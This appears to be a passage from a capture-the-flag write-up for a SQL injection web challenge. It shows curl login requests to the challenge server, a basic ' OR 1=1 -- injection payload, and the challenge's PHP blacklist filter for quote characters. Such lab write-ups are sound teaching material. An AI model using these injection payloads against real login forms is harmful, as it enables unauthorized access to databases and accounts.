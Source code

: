 ### Attempts

Let's try to enter some credantials :

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=admin&pass=admin" 
```

```html
<!DOCTYPE html>
<html>
...
        <br><br>
        Wrong password    </form>
...
</html>
```

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=walid&pass=admin"
```

```html
<!DOCTYPE html>
<html>
...
        <br><br>
        No such user    </form>
...
</html>

```

From the title, let's try a simple **SQL Injection** payload :

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=' OR 1=1 --&pass=admin"
```

We get :

```
why u bully me  
```

this comes from the `is_trying_to_hak_me()` function that verifies special characters, expecially used in sql injection :

```php
...
function is_trying_to_hak_me($str)
{   
    $blacklist = ["' ", " '", '"', "`", " `", "` ", ">", "<"];
    if (strpos($str, "'") !== false) {
        if (!preg_match("/[0-9a-zA-Z]'[0-9a-zA-Z]/", $str)) {
            return true;
        }
    }
    foreach ($blacklist as $token) {
        if (strpos($str, $token) !== false) return true;
    }
    return false;
}
...
```
